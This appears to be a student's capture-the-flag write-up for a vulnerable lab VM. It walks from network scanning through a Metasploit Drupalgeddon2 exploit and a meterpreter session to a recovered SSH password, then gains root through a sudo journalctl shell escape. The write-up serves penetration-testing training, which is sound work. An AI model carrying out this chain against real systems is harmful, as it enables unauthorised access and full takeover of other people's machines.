

# Report Labs / Flavio POGGIOLI

## Table of contents

  - [Report Labs / Flavio POGGIOLI](#report-labs--flavio-poggioli)
  - [Table of contents](#table-of-contents)

## VM n°207 

Goal : find the root Flag.

### 1. Find IP address of the machine

```bash
$ sudo netdiscover -r 10.0.2.0/24
```
  

Our target is 10.0.2.5. 

The 2 first is VBox address (network and dhcp).

### 2. List all open ports

We need to determine the open ports and the services running on them using nmap with some options.

```bash
$ sudo nmap -p- 10.0.2.5
```
  

For more precision on version and services, we can use the following command :

```bash 
nmap -Pn -sC -sV -p- 10.0.2.5
```
  

We can see that multiple ports are open (22, 80, 5000, 8081, 9001).

For the port 80, which host a web server, we can dig to find a something in arborescence directory. We will use dirb.

```bash
$ dirb http://10.0.2.5 -w
```
  

There is 2 files which can be interesting : /index.txt and /robots.txt.

In robots.txt, we can find about.html that dirb didn't find.

  

They told us to not brute force the vulnerable stuff because it doesn't work everytime.

We can try to search for the CMS like the name of the machine suggest it.

Drupal 7 is used on this machine (we have seen it on second nmap scan).

### 3. Find vulnerabilities

We can use searchsploit to find vulnerabilities on Drupal 7 that we will using with MetaSploit.

```bash
$ searchsploit drupal 7

$ msfconsole

$ search drupal 7
```
  

  

### 4. Exploit

We can test the exploit drupal_drupalgeddon2 which has an "excellent" rank.

```bash
msf6 > use exploit/unix/webapp/drupal_drupalgeddon2
```

We need to set the options of the exploit.
To see what attributes are present in the exploit that needed to be set again, we will use the command :

```bash
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > options
```

  

We have to change 3 attributes : RHOSTS, RPORT and LPORT.

```bash
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set rhosts 10.0.2.5
rhosts => 10.0.2.5
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set rport
rport => 80
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set rport 9001
rport => 9001
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set lport 1234
lport => 1234
```

And now, we can run the exploit.

```bash
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > exploit
```

Now that we have an interpretzer, we can use the command "ls" and we can distinguish 2 files with a different last modified date than the other files / directories.

  

LICENSE.txt has nothing special but misc has some interesting files.

```bash
meterpreter > ls misc
```

After a search, there is a file with different permissions and again, a different last modified date : tyrell.pass.

  

We find a username and a password to use it on SSH connection.

Now, we can list all users with the home directory.

  

tyrell and ghost are empty but Elliot directory has a file named user.txt but we don't have the permission to read it.

### 5. SSH connection

Now that we have credentials :

```bash
Username: tyrell
Password: mR_R0bo7_i5_R3@!_
```

We can try to connect with these credentials on SSH connection.

  

But tyrell cannot do a "sudo bash" to get a root shell.

  

To gain root access, I've used GTFOBins, list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems

[journalctl](https://gtfobins.github.io/gtfobins/journalctl/) can be used to gain root access.

```bash
tyrell@vuln_cms:~$ sudo /bin/journalctl

!/bin/sh
```
And with that, you have root access.